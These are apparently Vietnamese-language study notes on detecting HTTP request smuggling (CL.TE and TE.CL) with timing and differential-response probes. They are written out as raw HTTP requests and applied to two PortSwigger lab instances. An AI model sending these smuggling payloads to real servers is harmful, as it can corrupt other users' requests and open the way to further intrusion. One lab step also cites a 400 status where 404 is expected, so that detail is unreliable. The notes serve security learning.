



# Finding HTTP request smuggling vulnerabilities

## Using timing techniques
Cách hiệu quả nhất để phát hiện các lỗ hổng giấu yêu cầu HTTP là gửi các yêu cầu gây ra độ trễ thời gian trong phản hồi của ứng dụng nếu tồn tại lỗ hổng.

### CL.TE
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```
Vì máy chủ phía trước sử dụng header `Content-Length`, nó sẽ chỉ chuyển tiếp một phần của yêu cầu này, bỏ qua X. Máy chủ phía sau sử dụng header `Transfer-Encoding`, xử lý khối đầu tiên và sau đó chờ khối tiếp theo. Điều này sẽ gây ra độ trễ thời gian. (Vì ko có `0` kết thúc nên nó chờ)

### TE.CL
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

Ngược lại vì máy chủ trước là TE nên nó ko gửi X và máy chủ sau là CL nên nó thấy content-length chưa đủ nên sẽ chờ gây ra response bị trễ 

**Lưu ý: Kiểm tra dựa trên thời gian cho lỗ hổng TE.CL có thể làm gián đoạn người dùng ứng dụng khác nếu ứng dụng dễ bị tấn công với biến thể CL.TE của lỗ hổng. Nên thử nghiệm CL.TE trước và chỉ tiếp tục thử nghiệm TE.CL nếu thử nghiệm đầu tiên không thành công**

## Using differential responses
Khi phát hiện lỗ hổng có khả năng giấu yêu cầu, bạn có thể thu thập thêm bằng chứng cho lỗ hổng bằng cách khai thác nó để kích hoạt sự khác biệt trong nội dung phản hồi của ứng dụng. Điều này bao gồm việc gửi hai yêu cầu đến ứng dụng một cách nhanh chóng:
- Một yêu cầu "tấn công" được thiết kế để can thiệp vào việc xử lý yêu cầu tiếp theo.
- Một yêu cầu "bình thường".

Nếu phản hồi của yêu cầu bình thường chứa sự can thiệp dự kiến, lỗ hổng đã được xác nhận.

Ví dụ, giả sử yêu cầu bình thường trông như sau:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Yêu cầu này thường nhận phản hồi HTTP với mã trạng thái 200, chứa kết quả tìm kiếm.

Yêu cầu tấn công cần thiết để can thiệp vào yêu cầu này phụ thuộc vào biến thể giấu yêu cầu hiện diện: CL.TE hoặc TE.CL.

### CL.TE
Để xác nhận lỗ hổng CL.TE, bạn sẽ gửi yêu cầu tấn công như sau:
```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```
Nếu tấn công thành công, hai dòng cuối của yêu cầu này sẽ được máy chủ phía sau xử lý như là thuộc về yêu cầu tiếp theo nhận được. Điều này sẽ khiến yêu cầu "bình thường" tiếp theo trông như sau:
```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
Do yêu cầu này hiện chứa URL không hợp lệ, máy chủ sẽ phản hồi với mã trạng thái 404, cho thấy yêu cầu tấn công đã thực sự can thiệp vào yêu cầu đó.
### TE.CL
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
cần bao gồm chuỗi kết thúc `\r\n\r\n` sau ký tự 0 cuối cùng.

Nếu tấn công thành công, tất cả nội dung từ GET /404 trở đi sẽ được máy chủ phía sau coi là thuộc về yêu cầu tiếp theo. Điều này sẽ khiến yêu cầu "bình thường" tiếp theo trông như sau:
```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```
---



---

### 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

Áp dụng kiến thức vừa tìm hiểu, với `CL.TE` ta sẽ gửi request: 
```http
POST / HTTP/1.1
Host: 0aa50033043932f684576956009100f3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
foo:
```

Bên back-end sẽ xử lí thành 2 request: 
```http
POST / HTTP/1.1
Host: 0aa50033043932f684576956009100f3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Transfer-Encoding: chunked

0

```

và
```http
GET /404 HTTP/1.1
foo:
```
Nên khi gửi request lần thứ 2 nó sẽ phản hồi về 400 vì `/404` không tồn tại:


---

### 2. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses



Chú ý với TE.CL cần có `\r\n\r\n` sau `0` nếu không có sẽ dẫn đến time-out request 


